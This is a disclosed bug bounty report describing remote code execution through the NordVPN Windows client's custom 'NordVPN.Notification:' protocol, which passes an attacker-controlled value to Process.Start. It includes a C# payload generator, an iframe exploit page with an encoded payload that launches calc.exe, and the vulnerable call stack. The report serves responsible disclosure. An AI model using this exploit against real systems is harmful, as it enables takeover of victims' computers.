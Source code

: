 # Possible RCE through Windows Custom Protocol on Windows client

## Report Details
- **Report ID**: 1001255
- **URL**: https://hackerone.com/reports/1001255
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-07T15:48:53.501Z
- **Disclosed**: 2021-01-25T12:01:22.833Z

## Reporter
- **Username**: cyku
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
## Summary:
The NordVPN windows client application registered two custom protocols **NordVPN:** and **NordVPN.Notification:** for process communication. This makes us are able to  communicate with NordVPN.exe from web browser.
After looking the executable binary, I noticed the class **NordVpn.Views.ToastNotifications.ListenNotificationOpenUrl** eventually calls function  **Process.Start** with controllable argument, and this notification can be triggered through custom protocol **NordVPN.Notification:**. 
So it's possible to execute arbitrary system command from web browser.

## Steps To Reproduce:

  1. Create the malicious URL, the below is my script to generate the URL, it requires importing "Newtonsoft.Json.dll" and "NordVpn.Core.dll".

    ```csharp
    // Program.cs
    using System;
    using System.Collections.Generic;
    using NordVpn.Core.Tools;
    using NordVpn.Core.Models.ToastNotifications.Notifications;
    using System.Diagnostics;

    namespace ExploitApp
    {
        class Program
        {
            static void Main(string[] args)
            {
                Dictionary<string, string> arguments = new Dictionary<string, string>();
                arguments["OpenUrl"] = "calc.exe";
                NotificationActionArgs toastArgs = new NotificationActionArgs("", arguments);
                String exploit = ObjectCompressor.CompressObject(toastArgs);
                Console.Write(String.Format("NordVPN.Notification:{0}", exploit));
                Console.ReadKey();
            }
        }
    }
    ```

  2. Add the URL into a html file with iframe tag, then serves it on HTTP server.

    ```html
    <!-- exploit.html -->
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Exploit</title>
    </head>
    <body>
        <iframe src="NordVPN.Notification:UAAAAB+LCAAAAAAABAANy0EKgCAQBdC7/LV0AHdC0K5WHWAQi4FpFB2hkO5eb/8Glpp7gQcc1mx8cCTjrEFJHuPYZjKC1y7iEOrZr6TW4Ae2knSv8tdIEqd0J7zvBy7afohQAAAA"></iframe>
    </body>
    </html>
    ```

  3. Open the html file in the browser. Modern web browser may popup a window to confirm to open NordVPN.exe, if we choose "Open NordVPN", the command will be executed and popup a calc.exe.

## Proof of Concept Gif

Tested on Windows client lastest version 6.31.5.0.

{F1024995}

## Additional Information

The below is the simple call stack to Process.Start from ListenNotificationOpenUrl.
```
NordVPN.exe/NordVpn.Views.ToastNotifications.ListenNotificationOpenUrl.OnInteraction(NotificationActionArgs args)
    NordVpn.Application.Core.dll/NordVpn.Application.Core.ViewModels.Shell.ShellViewModel.Handle(ShowBrowserMessage message)
        NordVPN.exe/NordVpn.Views.Shell.FaultHandlingDefaultBrowser.Open(string url)
            Process.Start(string fileName);
```

## Impact

Possible to execute system command on victim's computer and take control of the computer.

## Attachments
- possible_rce_in_windows_client.gif

